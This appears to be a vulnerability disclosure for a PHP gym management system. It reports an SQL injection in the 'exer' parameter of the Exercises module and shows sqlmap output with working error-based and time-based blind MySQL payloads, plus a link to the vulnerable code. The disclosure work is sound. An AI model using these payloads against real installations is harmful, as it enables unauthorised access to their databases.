 # Gym-Management-Exercises-Sqlinjection
## Sqlinjection location
After logging in to the background
The injection point is in Exercises module

![image](https://user-images.githubusercontent.com/81155906/183283137-46fb7afa-a93c-4578-89ac-eb9a1de18765.png)

#### Sqlmap Attack

![image](https://user-images.githubusercontent.com/81155906/183283180-e4ae8794-c141-476c-87e3-865774ec96a0.png)


···
---
Parameter: exer (GET)
    Type: error-based
    Title: MySQL >= 5.0 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (FLOOR)
    Payload: exer=26'||(SELECT 0x77616550 WHERE 7593=7593 AND (SELECT 2167 FROM(SELECT COUNT(*),CONCAT(0x7171767171,(SELECT (ELT(2167=2167,1))),0x716b787071,FLOOR(RAND(0)*2))x FROM INFORMATION_SCHEMA.PLUGINS GROUP BY x)a))||'

    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: exer=26'||(SELECT 0x737a4e63 WHERE 5129=5129 AND (SELECT 8000 FROM (SELECT(SLEEP(5)))ZYTF))||'
---
[16:52:27] [INFO] the back-end DBMS is MySQL
web application technology: Apache 2.4.39, PHP, PHP 7.3.4
back-end DBMS: MySQL >= 5.0
···


## Code Download

https://www.sourcecodester.com/php/15515/gym-management-system-project-php.html
